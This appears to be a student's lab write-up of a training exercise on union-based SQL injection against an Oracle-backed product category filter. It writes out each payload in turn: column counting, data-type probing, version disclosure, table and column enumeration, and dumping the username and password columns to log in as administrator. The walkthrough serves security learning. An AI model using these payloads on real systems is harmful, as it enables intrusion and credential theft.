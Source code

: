 ```yaml
---
title: 'Lab 10: SQL injection attack, listing the database...'
updated: 2022-12-01T15:21:26.0000000+04:00
created: 2022-12-01T14:55:44.0000000+04:00
---
```


Lab 10: SQL injection attack, listing the database contents on Oracle
Thursday, December 1, 2022
2:55 PM
**<u>(Lab-10)</u>** - **<u>SQL injection attack, listing the database contents Oracle databases</u>**

**SQL Injection Vulnerability** - Product Category Filter

**End Goal**

1.  Determine table that contains usernames and passwords
2.  Determine the relevant columns
3.  Output the content of the table
4.  Login as the administrator user

**<u>Analysis</u>**

1.  Determine the Number of Columns

| Query to use | ' ORDER BY 2-- |
|--------------|----------------|

![image1](image1-192.png)

- This confirms that there are two columns

2.  Determine the Data Types of the Columns

| Query to use | ' UNION SELECT 'a','a' from DUAL-- |
|--------------|------------------------------------|

![image2](image2-88.png)

- This proves that both columns can hold text data

3.  Determine Database Version

| Query to use | ' UNION SELECT banner, NULL FROM v\$version |
|--------------|---------------------------------------------|

![image3](image3-57.png)

- Proves that the query works and will display the Database version and type in the response: CORE 11.2.0.2.0 Production

4.  Determine tables in the Database

| Query to use | ' UNION SELECT table_name,NULL FROM all_tables-- |
|--------------|--------------------------------------------------|

![image4](image4-39.png)

- Confirms that the query works with 200 ok Status
- Tables can be found in the responses: USERS_NEHCBJ

![image5](image5-26.png)

5.  Output Column names of the discovered Users table.

| Query to use | ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_NEHCBJ'-- |
|--------------|-------------------------------------------------------------------------------------------|

![image6](image6-18.png)

- Successfully executed, not just look for the column names in the responses.
- USERNAME_CERMRW
- PASSWORD_MGCSRD

6.  Displaying the Information from the Table using the discovered table name and Column names

| Query to use | ' UNION SELECT USERNAME_CERMRW, PASSWORD_MGCSRD from USERS_NEHCBJ-- |
|--------------|---------------------------------------------------------------------|

![image7](image7-14.png)

- Successfully Executed, not just look for it in the response.

![image8](image8-12.png)

